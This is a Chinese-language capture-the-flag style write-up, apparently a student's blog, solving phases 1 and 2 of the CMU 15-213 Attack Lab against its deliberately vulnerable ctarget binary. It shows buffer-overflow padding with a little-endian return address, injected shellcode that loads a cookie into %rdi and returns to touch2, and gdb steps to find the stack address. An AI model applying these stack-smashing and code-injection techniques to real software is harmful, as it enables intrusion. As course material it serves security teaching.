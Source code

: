 上面就是我们需要的`phase1.txt`的内容，可以发现其填充了40字节的垃圾数据，而后以小端存储的方式填入`touch1`的首地址。保存后使用指令`./hex2raw < phase1.txt > phase1-raw.txt`生成机器码，最后运行时输入这个文件就实现了攻击。

```asm
root@384ad3e1766c:~/CMU-15213/Lab/Attack# ./ctarget -q < phase1-raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00.......
```

这样我们的攻击就成功了:)
# phase2

这道题目还是需要我们“劫持”`getbuf`函数使其跳转到`touch2`，只不过`touch2`函数需要我们的`cookie`值作为参数传入`%rdi`中。

整体思路是编写一段攻击代码，在`getbuf`执行`ret`语句将栈顶用我们写的攻击代码的首地址填充，这样`getbuf`函数就不会正常返回，而是跳转到我们写的攻击代码，而后我们在攻击代码处将`cookie`值传给`%rdi`，将`touch2`的首地址压入栈顶，随后返回。这样程序就会自动从攻击代码跳转到`touch2`。

理论存在，实践开始！

首先打开`cookie.txt`找到我们的`cookie`值，非CMU本校学生应该都是`0x59b997fa`。现在我们需要确定`touch2`的首地址，这和`phase1`是一致的，在此不赘述。而后我们新建`phase2.s`编写攻击代码如下：

```asm
mov $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

随后我们需要将这段汇编代码变成机器能理解的机器码，在WriteUp的Appendix B中讲解了详细步骤，在这里就不重复了。

而后我们需要确定这段攻击代码的首地址。这里我们选择将这段代码放到输入的最开始，而默认输入的字符串会存放在栈顶。我们只需要找到栈顶的地址即可。

```asm
(gdb) break getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.

(gdb) run -q < phase2-raw.txt
Starting program: /root/CMU-15213/Lab/Attack/ctarget -q < phase2-raw.txt
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa
Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.

(gdb) print $rsp
$1 = (void *) 0x5561dca0

(gdb) stepi
14      in buf.c

(gdb) print $rsp
$2 = (void *) 0x5561dc78
```
